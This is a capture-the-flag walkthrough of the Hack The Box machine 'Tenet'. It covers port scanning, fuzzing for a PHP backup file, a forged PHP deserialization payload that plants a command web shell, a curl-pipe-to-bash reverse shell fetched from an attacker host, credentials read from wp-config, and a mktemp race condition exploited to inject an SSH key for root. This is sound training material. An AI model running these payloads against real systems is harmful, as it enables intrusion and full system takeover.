# <p style="color:RED">Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 
```bash
sudo nmap -sC -sV 10.10.10.223 -v
```

```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
We have two ports open

-  22/ssh :  OpenSSH 7.6p1

-  80/http : Apache httpd 2.4.29


## <p style="color:Green">Web Enum </p> 



Nothing interesting, let's try to add `tenet.htb` to our /etc/hosts




It's a wordpress page, after enumerating a bit we can find an interesting comment



- We first have a username "neil"

- A sator php file and it's backup has been deleted?



It didn't work in `tenet.htb`

Let's try on the main website



The comment mentioned a backup file aswell

let's make a small list for some backup extension to fuzz

```
backup
bck
old
save
bak
sav
copy
old
orig
tmp
txt
back
```

```bash
ffuf -c -w backup -u http://10.10.10.223/sator.php.FUZZ
```



And there is a file named "sator.php.bak"

And we get the source of the `sator.php` file


---

# <p style="color:RED">Foothold  </p>

---

```php
<?php
class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();
?>
```


--> PHP Insecure Deserialization 

We can actually create a simple cmd shell 

We'll use this php script to forge our serialized payload

```php
<?php
class DatabaseExport
{
	public $user_file = 'cmd.php';
	public $data = '<?php system($_GET["cmd"])?>';
}

$bad= new DatabaseExport;
echo serialize($bad);
?>
```

Output:

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"cmd.php";s:4:"data";s:28:"<?php system($_GET["cmd"])?>";}
```
our final payload

```url
http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22cmd.php%22%3Bs%3A4%3A%22data%22%3Bs%3A28%3A%22%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3F%3E%22%3B%7D
```




Seems like it worked! let's check if we have our cmd working




And yes! we have code exec

let's get a reverse shell on the machine


```url
http://10.10.10.223/cmd.php?cmd=curl%20http://10.10.14.105:8000/x|bash
```

> x is just a reverse shell https://resh.vercel.app/




---

# <p style="color:RED">User flag  </p>

---


Let's check the `wp-config.php` for creds

```

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

```





---

# <p style="color:RED">Root flag  </p>

---



neil can run `/usr/local/bin/enableSSH.sh` as root

```bash
#!/bin/bash

checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

		/bin/echo "Successfully added $sshName to authorized_keys file!"

	else

		/bin/echo "Error in adding $sshName to authorized_keys file!"

	fi

}
checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

		/bin/echo "Error in creating key file!"

		if [[ -f $1 ]]; then /bin/rm $1; fi

		exit 1

	fi

}
addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

	(umask 110; touch $tmpName)

	/bin/echo $key >>$tmpName

	checkFile $tmpName

	/bin/cat $tmpName >>/root/.ssh/authorized_keys

	/bin/rm $tmpName

}
key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded

```

What seems to be interesting is the `addKey` function which creates a temporary file with a random name then it puts the content of the `key` variable into it then the key is copied to the `authorized_keys` file

What seems odd about this function is the `mktemp`  let's google about this function

```text
Caveats:
In general, avoid using mktemp(), because a hostile process can exploit a race condition in the time between the generation of a temporary filename by mktemp() and the invoker's use of the temporary name. Use mkstemp() instead.
```


To sum up, mktemp is vulnerable to `race condition`  we'll take advantage of the time gap resulted when using this function! 

we'll inject our public ssh key into the temporary file created


First we let the while loop run

```bash
while true; do echo "ssh-rsa AAAAB3NzaC---SNIP---DgRk=" | tee  /tmp/ssh-* ;done
```

then we execute the script

and ssh into the box as root





## Thanks for reading hope you enjoyed it!


